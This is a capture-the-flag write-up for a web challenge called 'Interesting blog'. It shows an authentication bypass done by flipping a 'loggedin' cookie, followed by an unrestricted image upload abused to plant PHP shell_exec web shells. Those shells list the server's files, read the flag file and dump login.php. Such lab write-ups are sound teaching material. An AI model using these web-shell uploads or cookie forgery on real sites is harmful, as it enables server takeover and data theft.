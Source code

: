 # Interesting blog
**_Web Exploitation_** \
Difficulty: Medium

### 1. Bypass the authentication
**a. using the `loggedin` cookie** \
Change the value of this cookie using Web Dev Tools from 0 to 1 and refresh the page.
> I have personally used this method due to an obvious hint about the usage of cookies.

**b. using the hardcoded password** \
Will be explained lower.

As a result additional section that lets you upload an image should show up.

### 2. Upload a proper file
You can use this section to upload any file you want to the server.

> This site doesn't check if you actually uploaded an image or not.
There are only checks if the file isn't too heavy that aren't a threat for us in this case.

We can use this vulnerability to upload a PHP file with code that will be executed in the server.
While inspecting the website's code, I realized that all the files are uploaded to `images` folder.
Then let's list all the files in the parent folder.
```php
<?php
    print shell_exec('ls -R ..');
?>
```

_Output:_
```
..:
images
index.php
login.php
logout.php
s3krEtyT4b0r3TY
style.css
upload.php

../images:
Najlepszepiwo.jpeg
eiti.jpeg
elektryczny.jpeg
emerytura.jpeg
ja.jpeg
injection.php
prezent_urodzinowy.jpeg
wains.jpeg
```

### 3. Reading the flag
`s3krEtyT4b0r3TY` seems like a file that might contain a flag. Let's upload another PHP file to check!
```php
<?php
    print shell_exec('cat ../s3krEtyT4b0r3TY');
?>
```

### 4. Result
File: `s3krEtyT4b0r3TY` \
Flag: `EE_CTF{t0_T3n_C4Ly_4rB1TrAry_C0d3_3xeCVt10n}`

### 5. Reference to 1b)
While executing the following PHP code:
```php
<?php
    print shell_exec('cat ../login.php');
?>
```
I have noticed that there might be another vulnerability related to accessing the hardcoded password. However, I didn't find out how exactly this could be done.